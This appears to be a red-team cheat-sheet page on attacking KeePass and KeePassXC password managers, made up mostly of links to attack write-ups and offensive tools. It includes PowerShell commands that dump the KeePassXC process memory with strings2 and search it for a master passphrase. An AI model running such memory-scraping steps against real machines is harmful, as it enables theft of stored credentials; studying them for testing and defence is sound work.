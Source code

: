 # KeePass

- [https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/](https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/)
- [https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/](https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/)
- [https://habr.com/ru/post/346820/](https://habr.com/ru/post/346820/)




## KeePassXC

- [https://github.com/keepassxreboot/keepassxc](https://github.com/keepassxreboot/keepassxc)

```
PS > [System.Diagnostics.FileVersionInfo]::GetVersionInfo($(Get-Item "C:\Program Files\KeePassXC\KeePassXC.exe")).FileVersion
```



### Extract Passphrase from Memory

- [https://github.com/d3lb3/KeePass-the-Hash](https://github.com/d3lb3/KeePass-the-Hash)

```
PS > .\strings2.exe -pid (Get-Process KeePassXC) -a -wide > keepassxc_strings.txt
PS > gc .\keepassxc_strings.txt | Select-String -Pattern Passw0
PS > (gc .\keepassxc_strings.txt).length
PS > (gc .\keepassxc_strings.txt).length / 1mb
```




## DLL Hijacking

- [https://skr1x.github.io/keepass-dll-hijacking/](https://skr1x.github.io/keepass-dll-hijacking/)




## Tools



### KeeFarce

- [https://github.com/denandz/KeeFarce](https://github.com/denandz/KeeFarce)



### KeeFarceReborn

- [https://github.com/d3lb3/KeeFarceReborn](https://github.com/d3lb3/KeeFarceReborn)



### KeePassHax

- [https://github.com/HoLLy-HaCKeR/KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax)



### KeeThief

- [https://github.com/GhostPack/KeeThief](https://github.com/GhostPack/KeeThief)



### CrackMapExec

- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py)
- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py)



### KeePwn

- [https://github.com/Orange-Cyberdefense/KeePwn](https://github.com/Orange-Cyberdefense/KeePwn)
